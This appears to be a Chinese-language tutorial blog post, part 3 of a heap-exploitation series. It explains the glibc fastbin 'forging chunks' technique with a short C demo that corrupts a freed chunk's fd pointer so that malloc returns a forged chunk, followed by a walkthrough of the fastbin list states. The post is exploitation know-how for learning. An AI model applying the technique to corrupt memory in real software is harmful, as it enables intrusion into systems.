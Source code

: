 ```yaml
---
title: "heap利用 3/9: Forging Chunks"
date: 2023-02-05T15:36:08+08:00           

tags : [                                    
"heap利用",
]
categories : [                              
"heap利用",
]
keywords : [                                
"heap利用",
]
---
```


chunk被free后，会被插入到一个bin链表中，但是chunk对应的指针在程序中仍然可用。如果攻击者能够控制此指针，那么它就可以修改bin中的链表结构，从而插入攻击者自己伪造的chunk，这就是forging chunks利用。下面的示例程序展示了fast bin的情况下是如何实现伪造chunk的。

**示例程序**
```C
struct forged_chunk {
  size_t prev_size;
  size_t size;
  struct forged_chunk *fd;
  struct forged_chunk *bck;
  char buf[10];               // padding
};

// First grab a fast chunk
a = malloc(10);               // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk;    // At address 0x7ffc6de96690
chunk.size = 0x20;            // This size should fall in the same fastbin
data = (char *)&chunk.fd;     // Data starts here for an allocated chunk
strcpy(data, "attacker's data");

// Put the fast chunk back into fastbin
free(a);
// Modify 'fd' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;
// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);                   // Will return 0x219c010

victim = malloc(10);          // Points to 0x7ffc6de966a0
printf("%s\n", victim);       // Prints "attacker's data" !!
```

其中，forged chunk的大小参数设置为0x20，以便绕过安全检查 'malloc():memory corruption(fast)'，为了检查chunk的大小是否落在特定fast bin的范围内。此外，从上述程序可以知道，victim指向forged chunk前面的 0x10(0x8+0x8) 字节，即allocated chunk的数据从`fd`指针开始。

\
**fast bin链表状态变化**

不同操作后对应fast bin链表的状态变化如下：
1. `a` 被free后。
>fast bin链表：head->a->tail
2. `a` 的`fd`指针被更改为指向`forged chunk`，而`forged chunk`的`fd`实际指向恶意代码。
>fast bin链表：head->a->forged chunk->undefined
3. `malloc` 请求后从链表中取出`a`。
>fast bin链表：head->forged chunk->undefined
4. 用户发出`malloc` 请求，`forged chunk`被返回给用户。
>fast bin链表：head->underfined

**注意**
1. 对于同一个bin链表中的fast chunk的另一个`malloc`请求将导致段错误。
2. 尽管我们请求的是10字节却将forged chunk的大小设置为32字节，但两者都落在fast bin的32字节chunk的范围内。
3. 针对small chunks和large chunks的攻击在后面的House of Lore一节可见。
4. 以上程序代码是为64位机器设计的。如若要在32位机器上运行，需将`unsigned long long`替换为`unsigned int`，因为指针大小会从8字节变为4字节。此外，不应该再使用32字节作为forged chunk的大小，小于17字节为好。
